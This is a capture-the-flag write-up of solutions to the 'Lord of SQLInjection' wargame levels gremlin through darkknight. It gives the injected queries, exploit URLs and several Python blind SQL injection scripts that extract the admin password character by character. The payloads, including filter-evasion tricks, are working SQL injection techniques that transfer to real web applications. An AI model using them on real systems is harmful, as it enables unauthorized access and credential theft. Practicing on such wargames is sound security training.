





# Lord of SQLInjection Write-ups

## gremlin


query: 
```SQL
select id from prob_gremlin where id='0'||1#' and pw=''
```

__exploit :__ https://los.rubiya.kr/chall/gremlin_280c5552de8b681110e9287421b834fd.php?id=0'||1%23



<br>

## cobolt



query:
```SQL
select id from prob_cobolt where id='admin'#' and pw=md5('')
```

__exploit :__ https://los.rubiya.kr/chall/cobolt_b876ab5595253427d3bc34f1cd8f30db.php?id=admin'%23


<br>

## goblin



__query1 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or no!=1
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or no!=1


__query2 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=char(97, 100, 109, 105, 110)
```
 
__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=char(97,100,109,105,110)

__query3 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or ord(id)=97
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or ord(id)=97

__query4 :__
```SQL
select id from prob_goblin where id='guest' and no=0 or id=0x61646d696e
```

__exploit :__ https://los.rubiya.kr/chall/goblin_e5afb87a6716708e3af46a849517afdc.php?no=0 or id=0x61646d696e



## orc

___Blind SQL Injection!___

length: 8


__exploit__ : [orc.py](./code/orc.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orc_60e5b360f95c1f9688e4f3a86c5dd494.php?pw="
session = dict(PHPSESSID="your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "' or id = 'admin' and substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```


<br>

## wolfman


__query :__
```SQL
select id from prob_wolfman where id='guest' and pw=''||id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/wolfman_4fdc56b75971e41981e3d1e2fbe9b7f7.php?pw='||id='admin


<br>

## darkelf


__query :__
```SQL
select id from prob_darkelf where id='guest' and pw=''||id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/darkelf_c6a5ed64c4f6a7a5595c24977376136b.php?pw='||id='admin


<br>

## orge

__Blind SQL Injection!__

length: 8


__exploit__ : [orge.py](./code/orge.py)

```Python
import requests
import string

#settings
pw=""
string= string.digits + string.ascii_letters #0123456789abc...XYZ
url = "https://los.rubiya.kr/chall/orge_bad2f25db233a7542be75844e314e9f3.php?pw="
session = dict(PHPSESSID="input_your_session_id") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string)):
        query = url + "'||id = 'admin'%26%26substr(pw," + str(i) + ",1)='" + string[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += string[a]
            break

print("pw = " + pw)
```
{flag = 095a9852}



<br>

## troll


__query:__
```SQL
select id from prob_troll where id='ADMIN'
```

__exploit :__ https://los.rubiya.kr/chall/troll_05b5eb65d94daf81c42dd44136cb0063.php?id=ADMIN


<br>

## vampire


__query:__
```SQL
select id from prob_vampire where id='admin'
```

__exploit :__ https://los.rubiya.kr/chall/vampire_e3f1ef853da067db37f342f3a1881156.php?id=adadminmin


<br>

## skeleton


__query:__
```SQL
select id from prob_skeleton where id='guest' and pw='' or id='admin' and 1=1#' and 1=0
```

__exploit :__ https://los.rubiya.kr/chall/skeleton_a857a5ab24431d6fb4a00577dac0f39c.php?pw=' or id='admin' and 1=1%23


<br>

## golem

__Blind SQL Injection!__

length: 8


__exploit :__ [golem.py](./code/golem.py)

```Python
import requests

#settings
pw=""
string1="/012345678@ABCDEFGHIJKLMNOPQRSTUVWXY" #for substring(pw) >
string2="123456789:BCDEFGHIJKLMNOPQRSTUVWXYZ[" #for substring(pw) <

url = "https://los.rubiya.kr/chall/golem_4b5202cfedd8160e73124b5234235ef5.php?pw="
session = dict(PHPSESSID="input_your_session_id!") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(len(string1)):
        query=url+"'||id like 'admin'%26%26substring(pw,"+str(i)+",1)>'"+string1[a]+"'%26%26substring(pw,"+str(i)+",1)<'"+string2[a]
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += chr(ord(string1[a])+1)
            break

print("pw = " + pw)
```
{flag = 77d6290b}


<br>

## darkknight

__Blind SQL Injection!__

length: 8


__exploit :__ [darkknight.py](./code/darkknight.py)

```Python
import requests

#settings
pw=""
url = "https://los.rubiya.kr/chall/darkknight_5cfbc71e68e09f1b039a8204d1a81456.php?no="
session = dict(PHPSESSID="input_your_session_id!") #input your session id!


#starting Blind SQL Injection
for i in range(1, 9):
    for a in range(48,123):
        query=url+"0||id like 0x61646d696e%26%26ord(mid(pw,"+str(i)+",1)) like "+str(a)
        req = requests.post(query, cookies=session)

        if "Hello admin" in req.text:
            pw += chr(a)
            break

print("pw = " + pw)
```
{flag = 0b70ea1f}


<br>